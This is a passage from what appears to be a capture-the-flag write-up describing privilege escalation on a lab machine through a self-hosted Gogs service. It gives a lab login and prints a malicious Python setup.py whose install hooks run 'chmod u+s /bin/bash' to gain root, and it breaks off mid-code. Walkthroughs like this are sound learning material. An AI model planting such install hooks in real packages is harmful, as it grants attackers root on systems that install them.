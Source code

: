 There is gogs on port 3000, Gogs is a painless self-hosted Git service that runs virtually anywhere with little overhead.

![](/assets/img/only4you/17.png)

login on gogs application using `jhon:ThisIs4You`

here's the [poc](https://github.com/wunderwuzzi23/this_is_fine_wuzzi.git), and you can clone this [repository](https://github.com/wunderwuzzi23/this_is_fine_wuzzi.git).

firstly you need to change the setup.py file, we can import `os` to use method `system`.

```python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
os.system("chmod u+s /bin/bash")

class RunEggInfoCommand(egg_info):
	def run(self):
		RunCommand()
		egg_info.run(self)

class RunInstallCommand(install):
	def run(self):
		RunCommand()
		install.run(self)

setup(

name = "this_is_fine_wuzzi",

version = "0.0.1",

```